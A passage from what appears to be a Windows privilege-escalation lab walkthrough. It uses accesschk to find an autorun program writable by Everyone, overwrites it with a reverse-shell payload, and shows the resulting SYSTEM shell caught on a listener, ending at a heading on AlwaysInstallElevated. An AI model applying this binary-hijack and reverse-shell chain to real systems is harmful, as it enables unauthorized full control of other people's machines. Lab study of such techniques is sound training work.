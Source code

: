 - check binary permissions

```bash
C:\PrivEsc>accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Autorun Program\program.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
	FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
	FILE_ALL_ACCESS
  RW BUILTIN\Administrators
	FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
	FILE_ALL_ACCESS
  RW BUILTIN\Users
	FILE_ALL_ACCESS


```

it's writable by everyone ` RW Everyone`

- replace binary file with payload

```bash

C:\PrivEsc\rev.exe "C:\Program Files\Autorun Program\program.exe" /Y

copy C:\PrivEsc\rev.exe "C:\Program Files\Autorun Program\program.exe" /Y
        1 file(s) copied.

```

- login in through rdp to trigger auto run binary.

d
```bash
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.10.27.238 49863 received!
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```


**`Registry - AlwaysInstallElevated`**
